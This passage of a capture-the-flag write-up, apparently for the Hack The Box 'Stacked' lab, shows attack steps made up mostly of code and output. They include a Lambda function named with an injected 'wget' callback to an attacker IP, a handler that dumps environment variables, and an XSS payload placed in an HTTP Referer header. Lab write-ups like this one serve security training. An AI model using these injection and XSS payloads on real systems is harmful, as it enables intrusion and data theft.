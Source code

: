 Create a Node.js Lambda function whose name contains the injected command `wget 10.10.14.61`. If the attacker's web server receives a request, command injection is confirmed.

```javascript
// index.js
exports.handler = async function(event, context) {
  console.log("ENVIRONMENT VARIABLES\n" + JSON.stringify(process.env, null, 2))
  console.log("EVENT\n" + JSON.stringify(event, null, 2))
  return context.logStreamName
}
```

```bash
$ zip function.zip index.js
  adding: index.js (deflated 30%)
```

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda create-function --function-name 'tgihf;wget 10.10.14.61' --zip-file fileb://function.zip --handler index.handler --runtime nodejs12.x --role lambda-ex
{
    "FunctionName": "tgihf;wget 10.10.14.61/blah",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:tgihf;wget 10.10.14.61/blah",
    "Runtime": "nodejs12.x",
    "Role": "lambda-ex",
    "Handler": "index.handler",
    "CodeSize": 317,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2022-03-20T06:23:29.563+0000",
    "CodeSha256": "8nUEIrrafkyKgs2i/sh63Fevj2kYkbIyFPFI5M0o6Dk=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "66682858-7882-4004-bce2-0d7fa504eae2",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script>document.location = "http://127.0.0.1:8080"</script>

fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```
